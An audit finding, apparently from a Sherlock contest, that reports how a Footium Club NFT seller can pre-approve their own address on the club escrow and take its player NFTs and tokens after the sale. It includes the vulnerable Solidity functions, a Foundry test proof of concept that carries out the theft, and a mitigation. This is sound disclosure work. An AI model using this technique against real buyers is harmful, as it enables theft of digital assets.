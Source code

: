 sashik_eth

medium

# Previous owner of the club could steal club inventory

## Summary
 Previous owner of the Club NFT had the ability to steal any assets held in the Club's escrow contract by approving their own address prior to transferring the Club NFT.

## Vulnerability Detail

Each Club NFT is associated with an Escrow contract that is responsible for holding and transferring the Club's inventory of NFTs (such as players) and tokens (such as Footium Token). The current Club owner can approve any address to transfer ERC20 and ERC721 tokens from the escrow (=club balance) using this contract.
As Clubs NFTs follow the ERC721 standard, they can be traded freely on secondary markets. However, this creates an attack vector where the seller of the Club can approve their own address as the operator of Club assets, sell the Club NFT, and withdraw Club assets after a successful trade. This is because approvals on the escrow contract do not get revoked after changing the Club owner.

## Impact

The new Club owner risks losing all assets stored in the escrow contract as previous owners can withdraw these assets by pre-approving their own address before transferring Club ownership.

## Code Snippet

Functions that allow the current owner (seller) to approve addresses to transfer assets from `Escrow` balance:
https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumEscrow.sol#L75-L96
```solidity
    /**
     * @notice Sets approval for ERC20 tokens.
     * @param erc20Contract ERC20 contract address.
     * @param to The address of token spender.
     * @param amount Token amount to spend.
     * @dev only the club owner address allowed.
     */
    function setApprovalForERC20(
        IERC20 erc20Contract,
        address to,
        uint256 amount
    ) external onlyClubOwner {
        erc20Contract.approve(to, amount); 
    }

    /**
     * @notice Sets approval for ERC721 tokens.
     * @param erc721Contract ERC721 contract address.
     * @param to The address of token spender.
     * @param approved Boolean flag indicating whether approved or not.
     * @dev only the club owner address allowed.
     */
    function setApprovalForERC721(
        IERC721 erc721Contract,
        address to,
        bool approved
    ) external onlyClubOwner {
        erc721Contract.setApprovalForAll(to, approved);
    }
```

## PoC
Next Foundry test added in file `test/foundry/Footium.t.sol` could show a possible attack scenario:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../contracts/FootiumClub.sol";
import "../../contracts/FootiumPlayer.sol";
import {IERC721} from "@openzeppelin/contracts/token/ERC721/IERC721.sol";

contract CounterTest is Test {
    FootiumClub public club;
    FootiumPlayer public player;
    address buyer;
    address maliciousSeller;
    address secondaryMarket;

    function setUp() public {
        club = new FootiumClub();
        club.initialize("URL");
        player = new FootiumPlayer();
        player.initialize(address(123), 1, "URL");

        club.grantRole(club.MINTER_ROLE(), address(this));
        player.grantRole(club.MINTER_ROLE(), address(this));

        maliciousSeller = makeAddr("maliciousSeller");
        buyer = makeAddr("buyer");
        secondaryMarket = makeAddr("secondaryMarket");
    }

    function testStealingAfterTrade() public {
        // Minting club NFT for malicious seller and player NFT that would hold on clubs' escrow contract
        uint256 clubId = 1;
        club.safeMint(maliciousSeller, clubId);
        uint256 playerId;
        playerId = player.safeMint(address(club.clubToEscrow(clubId)));

        vm.startPrank(maliciousSeller);
        // Seller approves own address to be able to transfer players' NFT after trade of club NFT
        FootiumEscrow(club.clubToEscrow(clubId)).setApprovalForERC721(IERC721(address(player)), maliciousSeller, true);
        // Seller approve club NFT for secondary market to by traded
        club.approve(secondaryMarket, clubId);
        vm.stopPrank();
        // Trading tx
        vm.prank(secondaryMarket);
        club.transferFrom(maliciousSeller, buyer, clubId);
        // Checking that buyer now owns clubs' NFT
        require(club.ownerOf(clubId) == buyer);
        // Seller steal player NFT by transfer to own address since its still approved
        vm.startPrank(maliciousSeller);
        player.transferFrom(address(club.clubToEscrow(clubId)), maliciousSeller, playerId);
        vm.stopPrank();
        // Checking that seller owns player NFT after trade of club was executed
        assertEq(player.ownerOf(playerId), maliciousSeller);
    }
}
```
Check this link for instructions on how to add Foundry tests in the Hardhat project:
https://book.getfoundry.sh/config/hardhat#4-steps-to-add-foundry-test

## Tool used

Manual Review

## Recommendation

One possible solution to mitigate the risk of fraud for Club NFT buyers is to either remove the transfer possibility from the Club NFT contract altogether or explicitly warn potential buyers to check current approvals on the escrow contract and revoke any after buying.
